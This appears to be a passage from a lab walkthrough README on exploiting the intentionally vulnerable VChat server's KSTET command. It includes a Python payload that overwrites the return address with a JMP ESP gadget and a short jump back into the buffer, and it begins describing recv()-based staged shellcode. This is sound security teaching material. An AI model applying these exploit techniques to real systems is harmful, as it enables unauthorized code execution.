 2. Now that we have the Assembly instruction for the Short Jump, place it into the python program as shown in [exploit4.py](./SourceCode/exploit4.py). This allows us to get back to the start of our buffer in order to execute the first stage shellcode.
	```python
	PAYLOAD = (
		b'KSTET ' +
		b'A' * 66 +
		# 625014E6    FFE4                        JMP ESP
		struct.pack('<L', 0x625014E6) +
		# JMP SHORT 0xb8
		b'\xeb\xb8' +
		b'C' * (26 - 2)
	)
	```
3. Restart the VChat server, set a breakpoint at the `JMP ESP` instruction, run the [exploit4.py](./SourceCode/exploit4.py) program, and ensure that it works!

	https://github.com/DaintyJet/VChat_KSTET_Multi/assets/60448620/682ab5be-aa3d-47f0-a26a-a107011919a1

#### Shell Code Generation
Due to the limited space on the stack we have to work with (66-bytes) we will be using the techniques discussed in the [Code Reuse](https://github.com/DaintyJet/VChat_GTER_CodeReuse) walkthrough. We will reuse code from libraries that have already been loaded by our target *VChat*. As this is a TCP server, it should have the necessary libraries and procedures loaded for us to create a first-stage shellcode that loads and executes a second stage.

1. The first function we need to use for this is the `recv(...)` function call. This has the following signature:
	```
	int recv(
		[in]  SOCKET s,
		[out] char   *buf,
		[in]  int    len,
		[in]  int    flags
	);
	```
	* `s`: This is a Socket Descriptor, which is a kind of [File Descriptor](https://learn.microsoft.com/en-us/windows/win32/fileio/file-handles) (Or Handle). This is really just an integer value that refers to the socket we will be using for communications.
	* `buf`: A pointer to the char array to place incoming data.
	* `len`: The length of the buffer.
	* `flags`: Flags used to control the behavior of the function.
2. Now, to go about finding some of the information needed for our exploit, we can do the following.

	https://github.com/DaintyJet/VChat_KSTET_Multi/assets/60448620/6ba1aa4f-35a1-49c4-8c06-fe3740fc98df

	1. Right click the CPU Window, and select *Search For* and then *All Intermodular Calls*.

		<img src="Images/I25.png" width=600>
